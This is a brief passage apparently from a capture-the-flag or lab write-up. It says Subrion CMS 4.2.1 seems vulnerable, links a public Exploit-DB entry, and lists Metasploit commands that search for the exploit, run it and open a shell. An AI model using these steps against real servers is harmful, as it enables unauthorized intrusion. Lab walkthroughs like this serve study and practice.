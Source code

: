 ## Access

### Steps

#### Exploitation

**Seems to be an vulnerability in this v4.2.1**

```
https://www.exploit-db.com/exploits/49876
```

```
msfconsole
search subrion 4.2.1
exploit
shell
```



